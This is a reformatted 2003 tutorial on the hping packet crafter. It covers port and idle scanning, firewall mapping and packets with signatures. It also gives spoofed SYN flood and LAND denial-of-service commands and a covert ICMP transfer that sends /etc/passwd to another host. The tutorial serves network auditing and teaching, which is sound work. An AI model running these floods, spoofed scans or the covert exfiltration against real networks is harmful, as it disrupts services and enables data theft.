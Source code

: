 # HPING Tutorial

By Philippe Bogaerts, alias xxradar.
*Version 1.5 - 24-08-2003*

## What is HPING?

Hping is a command-line oriented TCP/IP packet crafter. It can be used to create IP packets containing TCP, UDP, or ICMP payloads. It allows users to modify and control all header fields through the command line. A solid understanding of IP and TCP/UDP is essential to effectively use and understand this utility.

Visit [http://www.hping.org](http://www.hping.org) for more details and to download the binaries. A full working version of hping can also be found on a bootable CD at [http://www.knoppix-std.org](http://www.knoppix-std.org). **Use all examples in a test environment and with caution**, as some might slow down or crash firewalls or systems.

## Main Features and Uses

### 1. HPING as a Port Scanner

Hping can craft TCP packets to scan ports by specifying flags, a destination port, and a target IP address. For example:

- `-F --fin`: Set FIN flag
- `-S --syn`: Set SYN flag
- `-R --rst`: Set RST flag
- `-P --push`: Set PUSH flag
- `-A --ack`: Set ACK flag
- `-U --urg`: Set URG flag
- `-X --xmas`: Set X unused flag (0x40)
- `-Y --ymas`: Set Y unused flag (0x80)

**Example Command:**
```shell
hping -I eth0 -S 192.168.10.1 -p 80
```
An open port is indicated by an `SA` response, while closed ports return `RA`. This technique resembles a SYN or Stealth scan.

- You can increment destination ports using `++` or by pressing `ctrl+z`.

Example:
```shell
hping -I eth0 -S 192.168.10.1 -p ++79
```

#### Fine Control over Packets

Hping provides finer control over packet creation with options like:
- `-s --baseport`: Source port (default random)
- `-p --destport`: Destination port
- `-k --keep`: Keep source port constant
- Various other options to set sequence numbers, ACKs, checksums, etc.

Example:
```shell
hping -I eth0 -M 3000 -SA 192.168.10.1 -p 80
```

### 2. Idle Scanning

Idle scanning allows for anonymous port scanning. It involves using a Silent Host, which has predictable IP ID increments and isn’t busy.

**Step-by-step Process:**
1. Identify a Silent Host by observing the ID field increments.
2. Run spoofed scans against the target.
3. Determine port status based on IP ID changes.

### 3. Firewall Mapping

Hping can mimic traceroute or Firewalk styles to probe firewalls using ICMP, UDP, and TCP packets.

**Example Command:**
```shell
hping -I eth0 -z -t 6 -S mail.test.com -p 143
```
This technique allows for use of any message type for probing, similar to Firewalk’s function.

### 4. HPING as a DOS Tool

#### 4.1 SYN Attack

Example:
```shell
hping -I eth0 -a 192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```
By issuing multiple SYN packets, an attacker can overload a server's connection table, causing denial of service.

#### 4.2 LAND Attack

Constructs a packet that connects a socket to itself, historically effective against older Windows NT systems.

Example:
```shell
hping -S -a 10.10.10.10 -p 21 10.10.10.10
```

### 5. Packets with Signatures

HPING can create packets with payloads, useful in auditing and probing:

Example:
```shell
hping -2 -p 7 192.168.10.33 -d 50 -E /root/signature.sig
```

### 6. Transferring Files via ICMP, UDP, or TCP

Hping’s listen mode allows for file transfers across a network, even masquerading as regular traffic.

#### 6.1 Via ICMP
```shell
hping 192.168.10.66 --listen signature --safe --icmp
hping 192.168.10.44 --icmp -d 100 --sign signature --file /etc/passwd
```

#### 6.2 Via TCP
Craft packets with flags, potentially bypassing stateful firewalls.

Example:
```shell
hping 192.168.10.66 --listen signature --safe -p 22
```

### 7. Conclusion

HPING is a versatile utility for understanding and experimenting with TCP/IP. It’s immensely useful for those auditing network security systems.

For suggestions or to report errors, please email `xxradar@radarhack.com`.

```

The above tutorial has been organized into clear sections for easier reference and updated to improve readability and clarify the context. Modern security practices and responsible use should always be considered when exploring network tools like HPING. Note that some elements, such as email addresses, might be outdated, and the ethical and legal implications of using such tools should be understood and respected.
